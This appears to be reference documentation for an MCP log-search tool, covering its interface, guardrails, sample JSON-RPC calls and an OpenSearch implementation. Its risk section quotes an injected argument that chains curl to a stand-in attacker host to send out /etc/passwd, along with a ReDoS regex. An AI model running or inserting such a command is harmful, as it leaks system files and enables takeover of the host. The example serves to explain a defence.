

# MCP Tool Reference: `search_logs_by_pattern`

| Property | Value |
| :--- | :--- |
| **Tool Name** | `search_logs_by_pattern` |
| **Module** | [`telemetry_mcp_server.tools.logs`](../../src/telemetry_mcp_server/tools/logs.py) |
| **Server Entrypoint** | [`telemetry_mcp_server.server.search_logs_by_pattern`](../../src/telemetry_mcp_server/server.py) |
| **MCP Primitive** | Tool |
| **Category** | Pattern Matching & Targeted Query |
| **Trust Classification** | High Sensitivity / Governed by DLP Middleware |

---

## 1. Overview & Operational Intent

The `search_logs_by_pattern` tool executes targeted regex or substring searches across a service's log stream to isolate trace IDs, HTTP status codes, exception class names, or specific transaction identifiers.

### Why This Tool Replaces Unrestricted Shell Commands
In an unmonitored shell environment, agents looking for specific error codes or trace tokens run commands such as:
```bash
grep -rn "500" /var/log/
# or
awk '/NullPointerException/ {print $0}' /var/log/*.log
```
This raw pattern introduces major risks:
1. **Unconstrained CPU Spikes & Disk Saturation:** Scanning gigabytes of unstructured disk files with uncontrolled grep processes exhausts I/O bandwidth and starves production services.
2. **ReDoS (Regular Expression Denial of Service):** An agent-generated regex containing catastrophic backtracking patterns (e.g. `(a+)+$`) can freeze the entire host server CPU indefinitely.
3. **Prompt Injection Hijacking:** Shell command chaining via unchecked arguments (`pattern="foo; curl http://attacker.com/leak?data=$(cat /etc/passwd)"`) enables total environment takeover.

`search_logs_by_pattern` provides an isolated, sandboxed search primitive with graceful regex fallback, bounded match ceilings, line truncation, and DLP sanitization.

---

## 2. Interface Specification

### Python Signature

```python
def search_logs_by_pattern(
    service_name: str,
    pattern: str,
    max_matches: int = 20,
) -> str:
    """Search recent logs for a specific service matching a regex or substring.

    Use this tool when investigating errors or looking for specific trace IDs,
    HTTP status codes, or exception names across service logs.
    Output is automatically governed by active hybrid-trust DLP policies.

    Args:
        service_name: Name of target service (e.g., 'auth', 'payment', 'database', 'inference', 'matching_engine').
        pattern: Regex or substring pattern to match (e.g., '500 Internal', 'NullPointer', 'timeout').
        max_matches: Maximum number of matching lines to return (1-100, default 20).

    Returns:
        Newline-delimited matching log lines, or an informational message if no matches.
    """
```

### Parameter Specification

| Parameter | Type | Required | Default | Bounds | Description |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `service_name` | `string` | **Yes** | — | Regex `^[a-zA-Z0-9_-]+$` | Name of the monitored target service. |
| `pattern` | `string` | **Yes** | — | Non-empty string | Case-insensitive regex or plain text substring to match against log lines. |
| `max_matches` | `integer` | No | `20` | `1` to `100` | Maximum number of matching lines to return. Always yields the most recent matches. |

### Generated MCP Tool Schema (`tools/list`)

```json
{
  "name": "search_logs_by_pattern",
  "description": "Search recent logs for a specific service matching a regex or substring. Use this tool when investigating errors or looking for specific trace IDs, HTTP status codes, or exception names across service logs. Output is automatically governed by active hybrid-trust DLP policies.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "service_name": {
        "type": "string",
        "description": "Name of target service (e.g., 'auth', 'payment', 'database', 'inference', 'matching_engine')."
      },
      "pattern": {
        "type": "string",
        "description": "Regex or substring pattern to match (e.g., '500 Internal', 'NullPointer', 'timeout')."
      },
      "max_matches": {
        "type": "integer",
        "default": 20,
        "description": "Maximum number of matching lines to return (1-100, default 20)."
      }
    },
    "required": ["service_name", "pattern"]
  }
}
```

---

## 3. Governed Safety & Guardrails

### 1. Graceful Regex Fallback (No Unhandled Exceptions)
If the calling LLM passes an invalid regular expression (such as an unclosed bracket `[ERROR` or broken quantifier `*timeout`), Python's `re.compile()` raises `re.error`. The tool catches this exception automatically and degrades to case-insensitive plain substring matching. The server never crashes or emits Python tracebacks to the client.

### 2. Match Bounding & Most Recent Bias
- Even if 500,000 lines match the search pattern, the tool collects matches safely and returns only the final `bounded_matches` lines (`matches[-bounded_matches:]`).
- `max_matches` is clamped between `1` and `100`.

### 3. Oversized Line Truncation
Individual matching lines exceeding 1,000 characters are truncated with `... [truncated]\n` to prevent context poisoning from embedded base64 blobs or serialized memory dumps.

### 4. Dynamic DLP Protection
All emitted lines pass through [`sanitize_payload`](../../src/telemetry_mcp_server/dlp.py), ensuring credit cards, SSNs, JWTs, and internal IP addresses in matching lines are scrubbed before reaching the agent.

---

## 4. Concrete Invocation Examples

### Happy Path (Regex HTTP 5xx Search)

#### Request
```json
{
  "jsonrpc": "2.0",
  "id": 104,
  "method": "tools/call",
  "params": {
    "name": "search_logs_by_pattern",
    "arguments": {
      "service_name": "payment",
      "pattern": "5\\d\\d|timeout",
      "max_matches": 2
    }
  }
}
```

#### Response
```json
{
  "jsonrpc": "2.0",
  "id": 104,
  "result": {
    "content": [
      {
        "type": "text",
        "text": "[2026-10-25 19:00:12] [ERROR] Payment capture failed tx_994825: 504 Gateway Timeout connecting to payment-gateway.[INTERNAL_HOST].net\n[2026-10-25 19:01:05] [ERROR] Circuit breaker open for downstream endpoint: 503 Service Unavailable"
      }
    ],
    "isError": false
  }
}
```

### No Matches Found
```text
No lines matching pattern 'DeadlockDetected' found in service 'database'.
```

### Invalid Service Name / Path Traversal Violation
```text
Error: Invalid service name or path traversal violation. Access denied.
```

---

## 5. Enterprise Productionization & Expansion Blueprint

In high-throughput enterprise environments handling petabytes of log telemetry, a linear file scan does not scale. `search_logs_by_pattern` evolves into a **Distributed Search Engine & ReDoS-Guarded Query Router**.



### Key Enterprise Expansions

#### 1. ReDoS Protection with Google `re2`
Standard regex engines (including Python's `re` module) use backtracking Non-deterministic Finite Automata (NFA), which suffer from $O(2^n)$ worst-case time complexity. Malicious or poorly designed agent queries can paralyze server CPU cores.
**Enterprise Expansion:** Utilize Google's `re2` engine (`google-re2` Python bindings) which executes all regular expressions in guaranteed linear time $O(n)$ relative to input length, entirely immune to catastrophic backtracking.

#### 2. Lucene Inverted Indices & Bloom Filter Acceleration
In production, log searches hit OpenSearch or ClickHouse:
- **ClickHouse ngram Bloom Filters:** Pre-computes 3-character ngrams (`tokenbf_v1`), allowing searches across 100,000,000 log lines in under 50 milliseconds.
- **Lucene Inverted Index:** Enables instant prefix, wildcard, and phrase matching without touching disk blocks.

#### 3. Cross-Service Distributed Trace Scatter-Gather
When an agent searches for a `trace_id` (e.g. `tr-a99f-4401`), an enterprise implementation does not query just one service. It executes a scatter-gather query across all microservices, assembling an end-to-end distributed transaction timeline.

#### 4. Semantic / Hybrid Log Search
Rather than forcing agents to construct perfect regex strings, integrate hybrid semantic search (e.g. SPLADE or BGE-small embeddings). The agent can query `"database pool exhaustion"` and match log entries like:
```text
[ERROR] HikariPool-1 - Connection is not available, request timed out after 30000ms.
```

### Production Reference Implementation

Below is a reference implementation showing how to implement ReDoS-safe linear searches with distributed OpenSearch integration:

```python
"""Enterprise ReDoS-Safe Pattern Search Engine with OpenSearch."""

from __future__ import annotations

import os
from typing import Any
import httpx

try:
    import re2  # Google RE2 linear-time engine
except ImportError:
    import re as re2  # Fallback to standard re


class EnterpriseSearchEngine:
    """Production pattern searcher integrating OpenSearch and Re2 safety."""

    def __init__(
        self, opensearch_url: str = "http://opensearch-cluster.internal:9200"
    ):
        self.endpoint = opensearch_url

    def is_safe_pattern(self, pattern: str) -> bool:
        """Verify pattern safety using RE2."""
        try:
            re2.compile(pattern)
            return True
        except Exception:
            return False

    async def search_opensearch(
        self,
        service_name: str,
        pattern: str,
        max_matches: int = 20,
    ) -> list[str]:
        """Execute Lucene regex query against distributed OpenSearch cluster."""
        bounded_matches = max(1, min(max_matches, 100))

        # Query OpenSearch index pattern logs-<service_name>-*
        search_body = {
            "size": bounded_matches,
            "sort": [{"@timestamp": {"order": "desc"}}],
            "query": {
                "bool": {
                    "must": [
                        {"term": {"service.name": service_name}},
                        {
                            "query_string": {
                                "query": f"*{pattern}*",
                                "default_field": "message",
                                "analyze_wildcard": True,
                            }
                        },
                    ]
                }
            },
        }

        async with httpx.AsyncClient(timeout=4.0) as client:
            try:
                resp = await client.post(
                    f"{self.endpoint}/logs-{service_name}-*/_search",
                    json=search_body,
                )
                hits = resp.json().get("hits", {}).get("hits", [])
                results: list[str] = []
                for hit in hits:
                    src = hit.get("_source", {})
                    ts = src.get("@timestamp", "")
                    lvl = src.get("log.level", "INFO")
                    msg = src.get("message", "")
                    results.append(f"[{ts}] [{lvl}] {msg}")
                return results
            except Exception as e:
                return [f"Search backend query error: {e!s}"]


# Example enterprise MCP tool wrapper
async def search_logs_by_pattern_enterprise(
    service_name: str, pattern: str, max_matches: int = 20
) -> str:
    engine = EnterpriseSearchEngine()
    if not engine.is_safe_pattern(pattern):
        # Gracefully handle potentially catastrophic or invalid patterns
        pattern = re2.escape(pattern)

    matches = await engine.search_opensearch(
        service_name=service_name,
        pattern=pattern,
        max_matches=max_matches,
    )

    if not matches:
        return f"No matching log lines for pattern '{pattern}' in service '{service_name}'."

    return "\n".join(matches)
```

---

## 6. Related MCP Primitives

- **Complementary Tool:** [`read_recent_errors`](./read_recent_errors.md) — For initial tail inspection before pattern extraction.
- **Complementary Tool:** [`filter_logs`](./filter_logs.md) — For multi-attribute structured filtering (by level and timestamp).
- **Incident Prompt:** [`incident_triage`](../runbooks/showcase_runbook.md) — Multi-step triage flow orchestrating pattern searches.
